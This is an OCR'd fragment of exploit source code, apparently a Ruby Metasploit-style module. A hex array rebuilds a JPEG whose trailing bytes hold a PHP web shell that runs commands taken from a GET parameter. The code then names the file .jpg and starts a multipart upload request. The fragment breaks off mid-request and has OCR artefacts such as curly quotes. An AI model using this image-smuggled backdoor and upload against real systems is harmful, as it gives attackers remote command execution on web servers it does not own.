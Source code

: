```
6E 67 20 49 4A 47 20 4A 50 45 47 20 76 38 30 29 2C 20 71 75 61 6C 69 74 79 20 3D

20 38 32 0A FF DB 00 43 00 06 04 04 05 04 04 06 05 05 05 06 06 06 07 09 0E 09 09

08 08 09 12 0D 0D 0A 0E 15 12 16 16 15 12 14 14 17 1A 21 1C 17 18 1F 19 14 14 1D

27 1D 1F 22 23 25 25 25 16 1C 29 2C 28 24 2B 21 24 25 24 FF DB 00 43 01 06 06 06

09 08 09 11 09 09 11 24 18 14 18 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24

24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24 24

24 24 24 24 24 24 24 FF C0 00 11 08 00 C0 01 06 03 01 22 00 02 11 01 03 11 01 FF

C4 00 1F 00 00 01 05 01 01 01 01 01 01 00 00 00 00 00 00 00 00 01 02 03 04 05 06

07 08 09 0A 0B FF C4 00 B5 10 00 02 01 03 03 02 04 03 05 05 04 04 00 00 01 7D 01

02 03 00 04 11 05 12 21 31 41 06 13 51 61 07 22 71 14 32 81 91 A1 08 23 42 B1 C1

15 52 D1 F0 24 33 62 72 82 09 0A 16 17 18 19 1A 25 26 27 28 29 2A 34 35 36 37 38

39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A 73

74 75 76 77 78 79 7A 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2 A3 A4

A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2 D3 D4

D5 D6 D7 D8 D9 DA E1 E2 E3 E4 E5 E6 E7 E8 E9 EA F1 F2 F3 F4 F5 F6 F7 F8 F9 FA FF

C4 00 1F 01 00 03 01 01 01 01 01 01 01 01 01 00 00 00 00 00 00 01 02 03 04 05 06

07 08 09 0A 0B FF C4 00 B5 11 00 02 01 02 04 04 03 04 07 05 04 04 00 01 02 77 00

01 02 03 11 04 05 21 31 06 12 41 51 07 61 71 13 22 32 81 08 14 42 91 A1 B1 C1 09

23 33 52 F0 15 62 72 D1 0A 16 24 34 E1 25 F1 17 18 19 1A 26 27 28 29 2A 35 36 37

38 39 3A 43 44 45 46 47 48 49 4A 53 54 55 56 57 58 59 5A 63 64 65 66 67 68 69 6A

73 74 75 76 77 78 79 7A 82 83 84 85 86 87 88 89 8A 92 93 94 95 96 97 98 99 9A A2

A3 A4 A5 A6 A7 A8 A9 AA B2 B3 B4 B5 B6 B7 B8 B9 BA C2 C3 C4 C5 C6 C7 C8 C9 CA D2

D3 D4 D5 D6 D7 D8 D9 DA E2 E3 E4 E5 E6 E7 E8 E9 EA F2 F3 F4 F5 F6 F7 F8 F9 FA FF

DA 00 0C 03 01 00 02 11 03 11 00 3F 00 3C 3F 3D 60 24 5F 47 45 54 5B 30 5D 60 3B

3F 3E

]

img_data = [img_data.join].pack(‘H*’)

img_name += ‘.jpg’

```
boundary = "#{rand_text_alphanumeric(rand(10) + 5)}"
post_data = "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"name\"\r\n"
post_data &lt;&lt; "\r\n#{img_name}\r\n"
post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"action\"\r\n"